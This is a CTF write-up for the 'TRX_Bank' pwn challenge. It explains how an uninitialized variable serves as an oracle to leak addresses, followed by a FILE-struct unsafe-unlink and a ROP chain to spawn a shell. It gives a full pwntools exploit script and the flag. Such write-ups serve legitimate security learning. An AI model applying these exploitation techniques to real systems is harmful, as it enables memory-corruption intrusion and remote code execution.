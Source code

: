 # TRX_Bank

## Description

To all our Valued Customers, at TRX Bank we aim to provide only the top-notch banking and customer experience;\
all reports about so-called "data leaks" are baseless slander from our competitors.

**DISCLAIMER**: Please test your solve locally before spawning a remote instance of the challenge!

## Overview of the challenge

The challenge allows us to create/delete bank accounts and make transfers/deposits,
there's also a `secret_backdoor` function, which we can access only after successfully leaking pie, which allows us to overwrite part of the `fp_rand` file struct used to create random IBANs
## Solution

The first step to solving the challenge is noticing a missing check in the `transfer` function, we can make the `scanf` call that asks the transfer amount fail, allowing us to use the uninitialized variable as an oracle, we can then binary search that value against our account balance.\
This allows us to leak pie/heap/libc/stack by making the binary reach different functions before transferring (see [solve.py](solve/solve.py) for details)

The second step involves overwriting the `prev_chain` and `chain` fields of the file struct, allowing us to perform an `unsafe-unlink` to gain a limited `write-what` primitive, the catch is that both the write and the what must be writeable addresses\
One possible solution is to overwrite a saved `rbp` on the stack and pivot to a controlled location.

The last thing we need is a place to store our rop-chain, i opted for writing it to the heap by overwriting the `_fileno` to stdin and creating new IBANs

## Solve Script

```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")

context.binary = exe

DOCKER_PORT = 3317
REMOTE_NC_CMD    = "nc bank.ctf.theromanxpl0.it 7010"    # `nc <host> <port>`

bstr = lambda x: str(x).encode()
ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))

GDB_SCRIPT = """
set follow-fork-mode parent
set follow-exec-mode same
b *transfer+334
""" 

def conn():
    if args.LOCAL:
        return process([exe.path])
    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT)
    if args.DOCKER:
        return remote("localhost", DOCKER_PORT)
    return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))

def main():
    r = conn()

    def malloc():
        r.sendline(b"2")
        r.recvuntil(b"your IBAN is ")
        ret = r.recv(31)
        r.recvuntil(b">")
        return ret

    def free(IBAN):
        r.sendline(b"3")
        r.recvuntil(b"Please enter your IBAN:")
        r.send(IBAN)
        r.recvuntil(b">")

    def deposit(IBAN, n):
        r.sendline(b"4")
        r.send(IBAN)
        r.sendline(bstr(n))
        r.recvuntil(b">")

    def transfer(src, dst, n):
        r.sendline(b"5")
        r.send(src)
        r.send(dst)
        r.sendline(n)
        r.recvuntil(b"How much do you want to transfer?\n")
        ret = r.recvline()
        r.recvuntil(b">")
        return ret

    def spray_heap(data=None):
        if data==None:
            r.send(b"AA")
            r.recvuntil(b">")
            return

        for i in range(0, len(data), 0x2):
            r.send(data[i:i+2])
            r.recvuntil(b">")

    def backdoor(addr, data=None):
        r.sendline(b"6")
        r.sendline(hex(addr).encode())
        r.send(data)
        r.recvuntil(b">")

    def binary_search(l, r, type=None):
        mid = (l+r)//2

        free(n[0])
        n[0] = malloc()
        deposit(n[0], mid)
        if type == "STACK":
            fp = FileStructure()
            fp.fileno = 3
            fp._lock = exe.bss(0x300)
            backdoor(exe.sym.secret_backdoor, bytes(fp)[0x60:0x60+0x77])
        elif type == "HEAP":
            n[0x1f] = malloc()
            free(n[0x1f])
        elif type == "LIBC":
            spray_heap()
            
        res = transfer(n[0], n[1], b"-")

        if l>=r:
            return mid
        elif b"insufficient" in res:
            l=mid+1
        elif b"completed" in res:
            r=mid-1
        return binary_search(l,r, type)

    '''
    USE UNINITIALIZED VARIABLE AS AN ORACLE TO LEAK PIE/HEAP/LIBC
    '''
    n = []
    for i in range(0x2):
        n.append(malloc())

    exe.address = binary_search(0, 2**48) - exe.sym.deposit - 225
    log.info(f"PIE @ {hex(exe.address)}")
    stack = binary_search(0, 2**48, "STACK")
    log.info(f"STACK @ {hex(stack)}")
    
    for i in range(0x1d):
        n.append(malloc())
    n.append(0)
    
    heap = binary_search(0, 2**48, "HEAP") - 0x1a30
    log.info(f"HEAP @ {hex(heap)}")

    libc.address = binary_search(0, 2**48, "LIBC") - libc.sym.puts - 474
    log.info(f"LIBC @ {hex(libc.address)}")

    '''
    UNSAFE UNLINK TO OVERWRITE SAVED RBP AND ROP
    '''

    fp = FileStructure()
    fp.fileno = 0
    fp._lock = exe.bss(0x300)
    fp.chain = heap+0x5a0 #our saved ropchain on the heap
    fp.unknown2 = p64(0)*2 + p64(stack-0x168) + p64(-1, signed=True) + p64(0) #prevchain and the saved rbp on the stack

    backdoor(exe.sym.secret_backdoor, bytes(fp)[0x60:0x60+0x77])

    rop2 = ROP(libc)
    rop2.rdi = libc.binsh()
    rop2.raw(rop2.ret.address)
    rop2.raw(libc.sym.system)

    rop = ROP(libc)
    rop.raw(b"A"*0xf8)
    rop.read(0, stack-0x200, len(rop2.chain()))
    rop.rsp = stack-0x200

    for i in range(11):
        free(malloc())
    r.sendline(b"2")
    r.send(b"\0"*15)
    r.recvuntil(b">", timeout=2)
    free(n[0])

    r.sendline(b"2")
    r.send((rop.chain()))
    #gdb.attach(r, gdbscript="b fclose\nb *leave+97\nc")
    fp = FileStructure()
    fp.fileno = 3
    fp._lock = exe.bss(0x300)
    fp.chain = heap+0x5a0 #our saved ropchain on the heap
    fp.unknown2 = p64(0)*2 + p64(stack-0x168) + p64(-1, signed=True) + p64(0) #prevchain and the saved rbp on the stack

    r.recvuntil(b">")
    backdoor(exe.sym.secret_backdoor, bytes(fp)[0x60:0x60+0x77])
    r.sendline(b"7")
    r.recvuntil(b"We're sorry ")
    r.send(rop2.chain())

    r.interactive()

if __name__ == "__main__":
    main()
```

## Flag

`TRX{un54f3_unl1nk_15_n07_f0r_7h3_h34p_0nly_a4b62c68}`
